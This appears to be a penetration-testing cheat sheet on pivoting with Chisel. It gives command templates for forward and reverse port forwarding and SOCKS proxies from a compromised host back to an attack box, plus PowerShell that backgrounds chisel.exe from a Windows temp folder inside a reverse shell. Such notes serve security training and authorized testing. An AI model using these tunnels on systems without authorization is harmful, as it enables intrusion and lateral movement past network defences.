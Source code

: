 ```yaml
---
description: Pivoting using Chisel
---
```


# Chisel

## **Requirements** <a href="#bkmrk-usage" id="bkmrk-usage"></a>

Requires a copy of the Chisel binary on both the target and attacker systems.

## **Advantages** <a href="#bkmrk-chisel-advantages" id="bkmrk-chisel-advantages"></a>

* Chisel is a portable binary that can be run on many operating systems
  * Either system can host the chisel server on a chosen TCP port&#x20;
  * Allows for a high amount of flexibility in situations where restrictions on connectivity exist
* No dependencies on SSH daemons/services running on the target
* Supports authenticated proxies to prevent unwanted connections.

## **Individual Port Forwarding** <a href="#bkmrk-individual-port-forw" id="bkmrk-individual-port-forw"></a>

Example: A service on a compromised host is listening on `$RPORT`

1. Run the Chisel server on the target and connect from the attack box
2. Specify the port forward on the client
3. Open a port on attack box and forward traffic to remote port

```bash
# Target Machine
./chisel server --port $SERV_PORT

# Attack Machine
./chisel client $targetIP:$SERV_PORT $LHOST:$LPORT:$RHOST:$RPORT
```

Open `$LPORT` on attack box and port forward to `$RPORT` on target

## **Reverse Individual Port Forwarding** <a href="#bkmrk-reverse-local-port-t" id="bkmrk-reverse-local-port-t"></a>

Example: A service on a compromised host is listening on `$LPORT`

1. Run the Chisel server on the attack box in **reverse mode** and connect from the target
2. Specify the port forward on the target machine
3. Open a port on attack box and forward traffic to remote port

```bash
# Attack Machine
./chisel server --reverse --port $SERV_PORT

# Target Machine
./chisel client $attackIP:$SERV_PORT R:$RPORT:$LHOST:$LPORT
```

Open `$RPORT` on attack box and forward to `$LPORT` on target through reverse connection.

## **Socks Proxy** <a href="#bkmrk-chisel-server-runnin" id="bkmrk-chisel-server-runnin"></a>

### **Server Running on Attack Box** <a href="#bkmrk-chisel-server-runnin" id="bkmrk-chisel-server-runnin"></a>

```bash
# Attack Machine
./chisel server --reverse --port 51234

# Target Machine
./chisel client $AttackIP:51234 R:127.0.0.1:54321:socks
```

Opens port 54321 on attack box as a reverse SOCKS proxy.  Listens for connections from Chisel on this port.

### **Chisel Server Running on Target** <a href="#bkmrk-chisel-server-runnin-0" id="bkmrk-chisel-server-runnin-0"></a>

```bash
# Target Machine
./chisel server --socks5 --port 51234

# Attack Machine
./chisel client $targetIP:51234 54321:socks
```

Open port 54321 on attack machine as a forward SOCKS proxy

### **Forward Dynamic SOCKS Proxy** <a href="#bkmrk-forward-dynamic-sock" id="bkmrk-forward-dynamic-sock"></a>

1. Run the Chisel server on the target box
2. Use the target box as a jump host to reach additional targets routable by the target

The traffic flows forward to the target box, which acts as a transparent SOCKS proxy

```bash
# Target Machine
./chisel server --socks5 --port $SERV_PORT

# Attack Machine
./chisel client $targetIP:$SERV_PORT $LPORT:socks
```

### **Reverse Dynamic SOCKS Proxy** <a href="#bkmrk-reverse-dynamic-sock" id="bkmrk-reverse-dynamic-sock"></a>

1. Run the Chisel server on the attack box in reverse mode
2. Connect to the Chisel server from the target and specify a reverse port forward

The traffic flows through the port on the attack box in reverse to the target box, which acts as a transparent SOCKS proxy

```
# Attack Machine
./chisel server --reverse --port $SERV_PORT

# Target Machine
./chisel client $attackIP:$SERV_PORT R:127.0.0.1:$LPORT:socks
```

## **Reverse Shell Tips** <a href="#bkmrk-reverse-shell-tips" id="bkmrk-reverse-shell-tips"></a>

### **Run Chisel in the Background** <a href="#bkmrk-run-chisel-in-the-ba" id="bkmrk-run-chisel-in-the-ba"></a>

Running `chisel` in the foreground in a reverse shell will render your shell useless.  Background the process in order to continue to use the shell while forwarding traffic.

#### **Linux**

Background a process with '`&`'.  Works for both client and server sides.

```bash
chisel server --port 8080 --reverse &
```

#### **Windows - PowerShell**

**Client Side**

```powershell
# Use the Start-Job cmdlet with a script block
$background = { Start-Process C:\Windows\Temp\chisel.exe -ArgumentList @('client','10.0.0.2:8080','R:127.0.0.1:8800:127.0.0.1:80') }
Start-Job -ScriptBlock $background
```

**Server Side**

Note that in `server` mode, you'll need to make sure your port is allowed through the firewall.

```powershell
# Use the Start-Job cmdlet with a script block
$background = { Start-Process C:\Windows\Temp\chisel.exe -ArgumentList @('server','--port 50001','--socks5') }
Start-Job -ScriptBlock $background
```

## References

* [https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
